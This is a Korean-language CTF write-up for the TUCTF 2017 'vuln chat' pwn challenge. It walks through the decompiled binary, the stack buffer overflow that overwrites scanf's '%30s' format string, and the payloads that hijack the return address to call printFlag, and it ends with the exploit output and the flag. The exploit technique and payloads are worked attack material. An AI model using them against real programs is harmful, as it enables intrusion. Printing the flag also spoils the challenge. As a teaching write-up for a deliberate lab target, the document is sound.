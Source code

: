 # vuln chat
50 point  
  
One of our informants goes by the handle djinn. He found some information while working undercover inside an organized crime ring. Although we've had trouble retrieving this information from him. He left us this chat client to talk with him. Let's see if he trusts you...  
  
nc vulnchat.tuctf.com 4141  
  
[vuln-chat](https://github.com/j3rrry/CTF/raw/master/2017/TU/Pwn/vuln%20chat%20/vuln-chat) - md5: 5d081990e899864c9dc85b1cf255af6e  

-------

일단 실행시켜보면
```
# ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: a
Welcome a!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
a: b
djinn: Sorry. That's not good enough
```
`username`을 받고 `trust` 를 받는다는 것을 알수가 있었고  
바로 바이너리 분석에 들어갔습니다.  
```
[0x08048470]> afl~printFlag
0x0804856b    1 31           sym.printFlag
```
```C
int printFlag()
{
  system("/bin/cat ./flag.txt");
  return puts("Use it wisely");
}
```
심볼 strip 되있지는 않아서 바로 printFlag() 함수를 찾을 수 있습니다.  
bof 문제로 RET printFlag() 덮어주면 됩니다.  

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+3h] [bp-2Dh]@1
  char v5; // [sp+17h] [bp-19h]@1
  int v6; // [sp+2Bh] [bp-5h]@1
  char v7; // [sp+2Fh] [bp-1h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  v6 = 0x73303325;					// "%30s"
  v7 = 0;
  __isoc99_scanf(&v6, &v5);
  printf("Welcome %s!\n", &v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", &v5);
  __isoc99_scanf(&v6, &v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
처음 scanf() 는 길이가 "%30s" 로 정해져 있습니다.  
`__isoc99_scanf(&v6, &v5);`  
`v5`로부터 길이 30은 0x19-30=-5 `ebp+5` 까지 덮을 수 있으며  
`v6`, `v7`, `sfp`, `ret`의 1바이트에 영향을 줄 수가 있습니다.  
중요한 것은 `v6` 가 "%30s" 문자열 형태로 길이제한에 대한 정보를 갖고 있으며 변조가 가능하다는 것입니다.  
`v5`부터 `v6`까지의 거리는 0x19-0x5=20  
`payload = "1" * 20 + "%99s"`  
  
두 번째 scanf() 는 이제 길이 제한이 풀린 것이나 다름없습니다.  
`__isoc99_scanf(&v6, &v4);`  
`v4` 부터 RET 까지의 거리 : 0x2D+4  
0x2D+4+4=53  
`payload2 = "1" * (0x2D+4) + p32(printFlag)`  

```
# python exploit.py
[+] Opening connection to vulnchat.tuctf.com on port 4141: Done
[*] Switching to interactive mode
djinn: Sorry. That's not good enough
TUCTF{574ck_5m45h1n6_l1k3_4_pr0}
Use it wisely
[*] Got EOF while reading in interactive
$
[*] Closed connection to vulnchat.tuctf.com port 4141
```
